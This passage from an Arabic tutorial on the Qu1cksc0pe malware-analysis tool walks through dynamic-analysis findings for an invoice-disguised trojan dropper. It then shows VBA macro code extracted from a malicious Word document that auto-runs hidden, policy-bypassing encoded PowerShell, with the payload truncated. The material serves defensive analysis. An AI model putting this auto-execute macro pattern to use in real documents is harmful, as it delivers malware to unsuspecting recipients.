 5. **تشغيل التحليل الديناميكي**:
   - انتقل إلى تبويب "التحليل الديناميكي"
   - حدد نفس الملف وانقر "بدء التحليل"
   - مراقبة سلوك البرنامج

6. **نتائج التحليل الديناميكي**:
   - الملف يحاول:
     - إنشاء مفاتيح في سجل النظام للتشغيل التلقائي عند بدء تشغيل النظام
     - تنزيل ملفات إضافية من الإنترنت
     - إنشاء عمليات (processes) جديدة بشكل مخفي
     - الاتصال بخادم التحكم والسيطرة

7. **الاستنتاج**:
   - الملف هو تروجان (Trojan) يحاول تثبيت برامج ضارة إضافية ويتصل بخادم تحكم وسيطرة.
   - تصنيف الخطورة: عالي

### الشرح التفصيلي للنتائج

هذا الملف يعمل كمرحلة أولية (Dropper) لتنزيل برمجيات خبيثة إضافية:
- يتظاهر بأنه فاتورة لكنه في الواقع برنامج ضار
- يقوم بإنشاء مفتاح في سجل النظام للبقاء نشطاً بعد إعادة تشغيل الكمبيوتر
- يقوم بتنزيل ملفات إضافية وتنفيذها
- يرسل معلومات عن جهازك إلى الخادم المتحكم

## المثال الثاني: تحليل ملف مستند Word مشبوه (ماكرو ضار) 📄

### السيناريو
استلمت ملف Word يدعى `financial_report.docx` من مصدر غير موثوق، وتريد التأكد من خلوه من الماكروز الضارة.

### خطوات التحليل

1. **بدء تحليل المستند**:
   - افتح برنامج Qu1cksc0pe
   - في الصفحة الرئيسية، انقر على "تحليل ملف"
   - اختر ملف `financial_report.docx`
   - سيتعرف البرنامج تلقائياً على أنه مستند وينتقل إلى تحليل المستندات

2. **تحليل المستند**:
   - البرنامج يكتشف أن المستند يحتوي على ماكرو
   - يستخرج الكود الموجود في الماكرو للفحص

3. **النظر في كود الماكرو المستخرج**:
   ```vba
   Sub AutoOpen()
       Document_Open
   End Sub
   
   Sub Document_Open()
       Dim payload As String
       payload = "powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc WwBTAHkAcwB0AGUAbQAuAE4AZQB0AC..."
       Shell payload, vbHidden
   End Sub
   ```
